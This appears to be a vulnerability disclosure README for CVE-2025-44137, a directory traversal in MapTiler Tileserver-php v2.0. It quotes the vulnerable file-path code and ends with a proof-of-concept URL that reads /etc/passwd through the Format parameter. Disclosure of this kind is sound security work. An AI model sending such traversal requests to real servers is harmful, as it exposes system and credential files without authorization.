


# CVE-2025-44137
Unauthenticated File Read in MapTiler Tileserver-php v2.0.

## Description
MapTiler Tileserver-php v2.0 is vulnerable to Directory Traversal. The
renderTile function within tileserver.php is responsible for delivering
tiles that are stored as files on the server via web request. Creating
the path to a file allows the insertion of "../" and thus read any file
on the web server. Affected GET parameters are "TileMatrix", "TileRow",
"TileCol" and "Format"

https://github.com/maptiler/tileserver-php/blob/d0fdeaec69688dc500b652a23669d724d7d53df2/tileserver.php#L381-L398
```
      $name = './' . $tileset . '/' . $z . '/' . $x . '/' . $y;
      $mime = 'image/';
      if($ext != null){
        $name .= '.' . $ext;
      }
      if ($fp = @fopen($name, 'rb')) {
        if($ext != null){
          $mime .= $ext;
        }else{
          //detect image type from file
          $mimetypes = ['gif', 'jpeg', 'png'];
          $mime .= $mimetypes[exif_imagetype($name) - 1];
        }
        header('Access-Control-Allow-Origin: *');
        header('Content-Type: ' . $mime);
        header('Content-Length: ' . filesize($name));
        fpassthru($fp);
        die;
```

## PoC

http://localhost/tileserver.php/x/1/1/1?Format=/../../../../../../../../../../../../../../etc/passwd&Request=x&layer=.


